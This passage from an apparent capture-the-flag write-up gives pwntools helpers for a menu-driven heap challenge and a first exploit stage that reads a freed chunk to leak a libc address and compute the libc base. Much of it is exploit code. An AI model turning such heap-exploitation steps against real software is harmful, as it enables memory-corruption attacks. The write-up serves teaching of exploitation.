 ```python
def write_chunk(index, content):
    r.recvuntil(b"> ")
    r.sendline(b"2")
    r.recvuntil(b"Index: ")
    r.sendline(b"%d" % index)
    r.recvuntil(b"Content: ")
    r.send(content)
```

And for reading and freeing:

```python
def read_chunk(index):
    r.recvuntil(b"> ")
    r.sendline(b"3")
    r.recvuntil(b"Index: ")
    r.sendline(b"%d" % index)
    data = r.recvuntil(b"Options:\n")
    return data[:-len(b"Options:\n")]    # we need to process received output
                                        # we remove 'Output:\n' from received
                                        # output

def free_chunk(index):
    r.recvuntil(b"> ")
    r.sendline(b"4")
    r.recvuntil(b"Index: ")
    r.sendline(b"%d" % index)
```

Now that we can interact easily with the functions we can build the actual exploit:

```python
chunk_a = alloc(0x200)
chunk_b = alloc(0x30)
free_chunk(chunk_a)
libc_leak = u64(read_chunk(chunk_a)[:6]+b"\x00\x00")
libc_base = libc_leak - 0x3c4b78

print("[!] libc_leak: %#x" % libc_leak)
print("[!] libc_base: %#x" % libc_base)
```

**Part 1: leaking libc address** 

We need to leak `libc`, how do we do it? We allocate a small bin and **free it**, since after the free it will contain an address to a location which is is located into libc:

```python
chunk_a = alloc(0x200)
free(chunk_a)
print(chunk_a, read(chunk_a))    
```

This happens because when we have only one chunk it will contain a random libc address, from which we can compute the address of the base of the libc. To find the offset we will use `vmmap` in gdb.
